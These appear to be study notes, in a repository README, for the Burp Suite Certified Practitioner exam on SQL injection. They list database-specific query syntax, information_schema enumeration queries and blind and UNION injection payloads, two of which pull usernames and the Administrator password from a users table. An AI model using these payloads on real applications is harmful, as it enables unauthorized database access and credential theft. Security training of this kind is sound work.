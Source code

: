 # Notes-Burp-Suite-Certification-Practitioner-BSCP-
Notes for the Burp Suite Certification

# SQL Injection 

### Determining the number of columns required


### Finding columns with a useful data type


### Using a SQL injection UNION attack to retrieve interesting data



### String concatenation

You can concatenate together multiple strings to make a single string.
```
Oracle	'foo'||'bar'
Microsoft	'foo'+'bar'
PostgreSQL	'foo'||'bar'
MySQL	'foo' 'bar' [Note the space between the two strings]
CONCAT('foo','bar')
```
### Querying the database type and version

```
Database type	Query
Microsoft, MySQL	SELECT @@version
Oracle	SELECT * FROM v$version
PostgreSQL	SELECT version()
```

### Listing the contents of the database
to list the tables in the database: ```SELECT table_name FROM information_schema.tables```

to list the columns in individual tables:: ```SELECT column_name FROM information_schema.columns WHERE table_name = 'Users'```

to list the database names: ```SELECT schema_name FROM information_schema.schemata ``` 


### Blind SQL injection
```
…xyz' AND '1'='1
…xyz' AND '1'='2

xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm

```


Pets%20%27%20union%20select%20null,%20username_igiesp%20||%20%27-%27%20||%20%20password_hpvetj%20from%20users_pvuawd--%20-

# Interesting Resources 

https://deephacking.tech/burp-suite-certified-practicioner-review-bscp/
https://portswigger.net/web-security/certification/how-to-prepare
https://portswigger.net/research/articles
https://www.youtube.com/@PortSwiggerTV/playlists

# Live Practices
https://www.youtube.com/watch?v=yC0F05oggTE
https://www.youtube.com/watch?v=dGsCA1N1BK0
